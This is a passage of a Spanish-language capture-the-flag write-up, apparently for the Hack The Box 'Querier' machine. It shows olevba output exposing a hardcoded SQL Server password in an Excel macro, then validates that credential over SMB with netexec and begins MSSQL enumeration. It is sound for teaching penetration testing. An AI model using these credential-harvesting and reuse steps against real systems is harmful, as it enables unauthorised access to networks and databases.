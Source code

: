 ```
Private Sub Connect()

Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset

Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10
conn.Open

If conn.State = adStateOpen Then

  ' MsgBox "connection successful"
 
  'Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close

End If

End Sub
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|Open                |May open a file                              |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
```

`Validamos` la `credencial` a nivel de `WORKGROUP`, es decir, que no son `credenciales` del `dominio` válidas, pero si son `credenciales` del equipo local `válidas`

```
# netexec smb 10.129.255.12 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
SMB         10.129.255.12   445    QUERIER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         10.129.255.12   445    QUERIER          [+] WORKGROUP\reporting:PcwTWTHRwryjc$c6 
```

### MSSQL Enumeration

Nos conectamos al servicio `MSSQL` con las credenciales `reporting:PcwTWTHRwryjc$c6`
